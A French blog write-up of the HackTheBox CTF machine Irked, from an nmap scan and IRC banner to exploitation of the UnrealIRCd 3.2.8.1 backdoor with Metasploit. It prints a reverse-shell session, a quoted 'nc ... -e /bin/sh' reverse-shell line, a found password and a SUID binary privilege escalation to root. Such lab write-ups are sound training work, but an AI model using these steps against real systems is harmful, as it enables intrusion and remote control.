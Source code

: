 # Solution du CTF Irked de HackTheBox

Fast
----

*Irked* est un CTF proposé par *MrAgent* sur *HackTheBox*.  

Platforme Linux et difficulté facile (20 points), c'est parti !  

La machine dispose de ports ouverts classiques mais aussi certains en rapport avec IRC :  

```plain
Nmap scan report for 10.10.10.117
Host is up (0.029s latency).
Not shown: 65513 closed ports
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
111/tcp   open     rpcbind
142/tcp   filtered bl-idm
2092/tcp  filtered descent3
3663/tcp  filtered dtp
6697/tcp  open     ircs-u
7634/tcp  filtered hddtemp
8067/tcp  open     infi-async
8512/tcp  filtered unknown
10572/tcp filtered unknown
15124/tcp filtered unknown
16477/tcp filtered unknown
22681/tcp filtered unknown
29675/tcp filtered unknown
29926/tcp filtered unknown
46360/tcp filtered unknown
48368/tcp filtered unknown
48810/tcp filtered unknown
49419/tcp open     unknown
52182/tcp filtered unknown
65534/tcp open     unknown
```

Le serveur web ne retournant rien d'intéressant c'est le moment de lancer le client IRC XChat pour voir ce que l'on trouve :  

```plain
* *** Looking up your hostname...
* *** Couldn't resolve your hostname; using your IP address instead
* You have not registered
* Welcome to the ROXnet IRC Network devloop!devloop@10.10.13.166
* Your host is irked.htb, running version Unreal3.2.8.1
* This server was created Mon May 14 2018 at 13:12:50 EDT
* irked.htb Unreal3.2.8.1 iowghraAsORTVSxNCWqBzvdHtGp lvhopsmntikrRcaqOALQbSeIKVfMCuzNTGj
* UHNAMES NAMESX SAFELIST HCN MAXCHANNELS=10 CHANLIMIT=#:10 MAXLIST=b:60,e:60,I:60 NICKLEN=30 CHANNELLEN=32 TOPICLEN=307 KICKLEN=307 AWAYLEN=307 MAXTARGETS=20 :are supported by this server
* WALLCHOPS WATCH=128 WATCHOPTS=A SILENCE=15 MODES=12 CHANTYPES=# PREFIX=(qaohv)~&@%+ CHANMODES=beI,kfL,lj,psmntirRcOAQKVCuzNSMTG NETWORK=ROXnet CASEMAPPING=ascii EXTBAN=~,cqnr ELIST=MNUCT STATUSMSG=~&@%+ :are supported by this server
* EXCEPTS INVEX CMDS=KNOCK,MAP,DCCALLOW,USERIP :are supported by this server
* There are 1 users and 2 invisible on 1 servers
* I have 3 clients and 0 servers
* Current Local Users: 3  Max: 3
* Current Global Users: 3  Max: 3
* MOTD File is missing
* devloop active le mode +i devloop
* devloop active le mode +w devloop
* devloop active le mode +x devloop
```

On voit ici que le serveur IRCd est un Unread en version 3.2.8.1, bien connu pour inclure une backdoor ([voir solution du CTF Relativity](http://devloop.users.sourceforge.net/index.php?article71/solution-du-ctf-relativity)).  

*Metasploit* dispose d'un module pour cette vulnérabilité, il suffit juste de tester quelques payloads pour en trouver un fonctionnel :  

```plain
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > show options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  10.10.10.117     yes       The target address
   RPORT  6697             yes       The target port (TCP)

Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.13.166     yes       The listen address (an interface may be specified)
   LPORT  80               yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

msf exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[*] Started reverse TCP handler on 10.10.13.166:80
[*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
    :irked.htb NOTICE AUTH :*** Looking up your hostname...
[*] 10.10.10.117:6697 - Sending backdoor command...
[*] Command shell session 1 opened (10.10.13.166:80 -> 10.10.10.117:33984) at 2019-02-03 12:07:42 +0100

id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
```

Le système est un Debian 32 bits (*Linux irked 3.16.0-6-686-pae #1 SMP Debian 3.16.56-1+deb8u1 (2018-05-08) i686 GNU/Linux*).  

Il y a un utilisateur qui possède le flag *user.txt* :  

```plain
1061877    4 drwxr-xr-x  18 djmardov djmardov     4096 Nov  3 04:40 /home/djmardov
1177472    4 drwx------   3 djmardov djmardov     4096 May 11  2018 /home/djmardov/.dbus
1061885    4 -rw-r--r--   1 djmardov djmardov      675 May 11  2018 /home/djmardov/.profile
1062684    0 lrwxrwxrwx   1 root     root            9 Nov  3 04:26 /home/djmardov/.bash_history -> /dev/null
1177702    4 drwx------   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/.ssh
1061894    4 drwxr-xr-x   2 djmardov djmardov     4096 May 14  2018 /home/djmardov/Downloads
1177456    4 drwxr-xr-x   2 djmardov djmardov     4096 May 15  2018 /home/djmardov/Documents
1177813    4 -rw-------   1 djmardov djmardov       33 May 15  2018 /home/djmardov/Documents/user.txt
1177807    4 -rw-r--r--   1 djmardov djmardov       52 May 16  2018 /home/djmardov/Documents/.backup
1177703    4 drwx------   2 djmardov djmardov     4096 May 15  2018 /home/djmardov/.gnupg
1061893    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/Desktop
1177523    4 drwx------  13 djmardov djmardov     4096 May 15  2018 /home/djmardov/.cache
1177487    4 drwx------   3 djmardov djmardov     4096 Nov  3 04:40 /home/djmardov/.gconf
1177477    4 drwx------   3 djmardov djmardov     4096 May 11  2018 /home/djmardov/.local
1061897    8 -rw-------   1 djmardov djmardov     4706 Nov  3 04:40 /home/djmardov/.ICEauthority
1177457    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/Music
1177455    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/Public
1177467    4 drwx------  15 djmardov djmardov     4096 May 15  2018 /home/djmardov/.config
1061886    4 -rw-r--r--   1 djmardov djmardov      220 May 11  2018 /home/djmardov/.bash_logout
1061887    4 -rw-r--r--   1 djmardov djmardov     3515 May 11  2018 /home/djmardov/.bashrc
1177466    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/Videos
1177458    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/Pictures
1061895    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/Templates
1177582    4 drwx------   4 djmardov djmardov     4096 May 11  2018 /home/djmardov/.mozilla
```

Le fichier *Documents/.backup* contient un mot de passe avec un indice laissant supposer qu'il faut utiliser un logiciel de stéganographie quelconque... pas trop envie XD  

And furious
-----------

Le fichier */home/ircd/.bash\_history* semble contenir des commandes de plus fort intérêt :  

```bash
echo '#!/bin/sh' > who
echo 'nc 10.10.13.255 4445 -e /bin/sh' >> who
chmod +x who
./who
/usr/bin/viewuser
su
su Kab6h+m+bbp2J
su
viewuser
exit
```

Malheureusement ce qui semble être un mot de passe ne semble pas permettre un accès SSH ni de passer root via *su* :(  

Le binaire *viewuser* semble être le chemin tout tracé :  

```plain
-rwsr-xr-x 1 root root 7328 May 16  2018 /usr/bin/viewuser
```

Une fois ce binaire récupéré on l'ouvre dans *Cutter* pour voir le *main()* :  

![HackTheBox Irked CTF viewuser disassembly in Cutter](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/irked_viewuser_main.png)

Et parmi les chaînes de caractères présentes dans le programme on voit */tmp/listusers* qui n'existe pas...  

```plain
ircd@irked:/var/www/html$ cp /bin/dash /tmp/listusers
ircd@irked:/var/www/html$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-02-03 08:08 (:0)
djmardov pts/2        2019-02-03 08:10 (10.10.14.226)
djmardov pts/0        2019-02-03 08:24 (10.10.14.13)
djmardov pts/8        2019-02-03 08:44 (10.10.12.244)
djmardov pts/10       2019-02-03 08:50 (10.10.15.100)
# id
uid=0(root) gid=1001(ircd) groups=1001(ircd)
# cd /root
# ls
pass.txt  root.txt
# cat root.txt
8d8e9e8 -- snip --22daf3
```


*Published April 27 2019 at 17:44*